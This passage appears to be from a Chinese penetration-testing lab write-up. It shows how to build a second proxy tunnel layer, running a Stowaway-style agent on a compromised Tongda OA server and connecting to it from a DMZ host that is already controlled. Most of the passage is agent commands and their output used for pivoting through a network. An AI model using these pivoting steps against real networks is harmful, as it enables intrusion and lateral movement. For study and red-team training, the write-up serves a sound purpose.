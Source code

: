 此时访问 OA 整个流量走向是：

```bash
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9000) -> VPS admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>)
```

*建立第二层隧道*

通过 DMZ 拿下第二层网络通达 OA Shell。

systeminfo 确认类型为 64，上传 64 agent。

由于没有防火墙限制，这回不再像第一层代理 DMZ 主机一样去反连接，尝试选择 agent 自己开放端口 0.0.0.0:10000，让 DMZ 主动连接（正向连接）。

```bash
C:\>./windows_x64_agent -l 10000 -s test
2023/03/13 16:25:54 [*] Starting agent node passively.Now listening on port 10000
```

DMZ 主机成功连接 OA 服务器，自动取名 Node 1 成为 Node 0 子节点。

```bash
(node 0) >> connect 192.168.52.30:10000
[*] Waiting for response......
[*] New node come! Node id is 1

(node 0) >> back
(admin) >> topo
Node[0]'s children ->
Node[1]

Node[1]'s children ->

(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:

(admin) >>
```

继续做备注方便后续回顾。

```bash
(admin) >> use 1
(node 1) >> addmemo "通达 OA"
[*] Memo added!
(node 1) >> back
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:  "通达 OA"

(admin) >>
```
